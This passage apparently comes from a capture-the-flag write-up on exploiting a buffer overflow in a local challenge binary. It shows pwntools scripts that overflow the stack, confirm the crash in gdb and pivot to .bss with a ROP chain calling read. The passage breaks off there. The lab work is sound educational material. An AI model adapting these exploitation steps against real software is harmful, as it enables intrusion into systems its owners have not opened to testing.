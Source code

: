 ```py
context.binary = elf = ELF("./binary")

io = elf.process()
gdb.attach(io)

for inpt in inputs:
	io.sendline(inpt)
	io.interactive()

payload  = b"A"*size
payload += b"BBBB"

io.send(payload)

io.interactive()
```

Running this, we can see the segfault with our `b"BBBB"`.

![gdb_crash](/assets/holygrail/gdb_crash.png)

I didn't know how long my ropchain would be so the first thing I did was pivot and call read with much more bytes. The updated payload is:

```py
rop = ROP(elf)
leave_ret = rop.find_gadget(['leave','ret'])[0]
read = elf.plt['read']

# pivot to bss
payload  = b"A"*(size-4)
payload += p32(elf.bss()) #ebp
payload += p32(read)
payload += p32(leave_ret)
payload += p32(0)
payload += p32(elf.bss(4))
payload += p32(0x200)
  
io.send(payload)
```